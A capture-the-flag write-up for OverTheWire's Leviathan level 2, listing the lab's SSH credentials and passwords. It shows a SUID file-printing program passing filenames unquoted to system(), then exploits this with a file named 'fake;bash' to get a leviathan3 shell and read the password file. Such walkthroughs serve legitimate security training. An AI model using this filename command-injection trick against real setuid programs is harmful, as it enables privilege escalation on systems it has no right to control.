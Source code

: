 # Leviathan Level 2 -> 3

## 🧠 Goal  

Log into Leviathan 2 and find the password for Leviathan 3.  

---

## 🔐 Credentials  

- **Username:** `leviathan2`  
- **Host:** `leviathan.labs.overthewire.org`  
- **Port:** `2223` (SSH)  
- **Password:** `NsN1HwFoyN`  

---

## 🖥️ Commands Used  

```bash
# connect to leviathan2
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
#try to uses SUID premission to access the pass file 
leviathan2@leviathan:~$ ls -l
total 16
-r-sr-x--- 1 leviathan3 leviathan2 15072 Aug 15 13:17 printfile
leviathan2@leviathan:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x80490ed, 2, 0xffffd444, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                       = -1
puts("You cant have that file..."You cant have that file...
)                                = 27
+++ exited (status 1) +++

leviathan2@leviathan:~$ mktemp -d /tmp/amro.XXX
/tmp/amro.BWn
leviathan2@leviathan:~$ touch /tmp/amro.BWn/test
leviathan2@leviathan:~$ ltrace ./printfile /tmp/amro.BWn/test
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access("/tmp/amro.BWn/test", 4)                                   = 0
snprintf("/bin/cat /tmp/amro.BWn/test", 511, "/bin/cat %s", "/tmp/amro.BWn/test") = 27
geteuid()                                                         = 12002
geteuid()                                                         = 12002
setreuid(12002, 12002)                                            = 0
system("/bin/cat /tmp/amro.BWn/test" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                            = 0
+++ exited (status 0) +++
```
access("/tmp/amro.BWn/test", 4) = 0 snprintf("/bin/cat /tmp/amro.BWn/test", 511, "/bin/cat %s", "/tmp/amro.BWn/test") = 27 
geteuid() = 12002 
geteuid() = 12002 
setreuid(12002, 12002) = 0 
system("/bin/cat /tmp/amro.BWn/test" <no return ...> 

listen to me and answer: 
access() checks RUID if returns 0 mean that this ruid (leviathan2) have access setreuid(12002,12002) makes both IDs = leviathan3, so the process runs entirely as leviathan3, then system performs the command cat to print the content of the file but the tricks come here the attacker could insert ; in the name of that file lets say "fake;bash" that has gained access before and since ; is command seprator then cat/tmp/amro.BWN/fake will execute or get error it doesn`t matter,then bash command will execute and since i am leviathan 3 now it will open the bash of leviathan3 then i can traverse to the passowrd file

```bash
leviathan2@leviathan:~$ touch /tmp/amro.BWn/"fake;bash"
leviathan2@leviathan:~$ ./printfile /tmp/amro.BWn/"fake;bash"
/bin/cat: /tmp/amro.BWn/fake: Permission denied
leviathan3@leviathan:~$ whoami
leviathan3
leviathan3@leviathan:~$ cat /etc/leviathan_pass/leviathan3
f0n8h2iWLP

```
___

## 💡 Theory
```bash
; in Linux shells
The semicolon (;) is a command separator in shells like bash and sh.
It means: “Run the first command, then run the second command, regardless of whether the first succeeds or fails.”
echo "Hello"; echo "World" 
hello
world
another example :
/bin/cat/fake;bash
"hi i am the fake text"
then -> bash will execute

Key difference from && and ||
; → run both, always.
&& → run second only if first succeeds (exit code = 0).
|| → run second only if first fails (exit code ≠ 0).
```

___

## 📤 Output
```bash
f0n8h2iWLP
```
